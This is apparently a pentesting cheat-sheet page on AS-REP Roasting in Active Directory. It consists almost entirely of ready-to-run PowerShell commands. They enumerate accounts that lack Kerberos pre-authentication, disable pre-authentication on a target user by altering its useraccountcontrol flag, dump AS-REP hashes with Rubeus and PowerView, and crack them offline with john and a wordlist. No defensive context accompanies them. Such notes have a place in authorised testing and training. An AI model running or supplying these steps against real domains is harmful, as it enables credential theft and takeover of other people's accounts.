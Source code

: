 # AS-REP Roasting

## Enumerate

Enumerating accounts with Kerberos pre-authentication disabled

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
{% endtab %}

{% tab title="Rubeus" %}
```powershell
Rubeus.exe asreproast /user:<user> /outfile:file.txt
# Later use john to crack the password
```
{% endtab %}
{% endtabs %}

## Disable pre-authentication

{% tabs %}
{% tab title="PowerView" %}
```powershell
Set-DomainObject -Identity <User> -XOR @{useraccountcontrol=4194304} -Verbose
```
{% endtab %}
{% endtabs %}

## Retrieve the hash

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-ASREPHash -UserName VPN1user -Verbose
Invoke-ASREPRoast -Verbose
```
{% endtab %}
{% endtabs %}

## Crack

```powershell
john.exe --wordlist=passwords.txt asrephashes.txt
```
